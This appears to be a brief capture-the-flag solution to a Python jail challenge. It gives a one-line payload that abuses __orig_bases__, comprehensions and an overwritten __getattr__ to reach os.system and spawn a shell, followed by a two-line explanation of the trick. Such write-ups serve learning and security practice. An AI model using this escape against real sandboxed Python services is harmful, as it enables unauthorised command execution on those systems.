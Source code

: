 # solve

```py
{{{{a.sh for a.__class__.__getattr__ in {a.os.system}} for a.__class__.__getattr__ in {a.sys.modules.__getitem__}} for a.__class__.__getattr__ in {a.__class__.__init__.__globals__.__getitem__}} for a in __builtins__.__orig_bases__}
```

use `__orig_bases__` which gives an actual python object. use `{}` and `for` setattr stuffs and overwrite `__getattr__` to call funcs with 1 arg

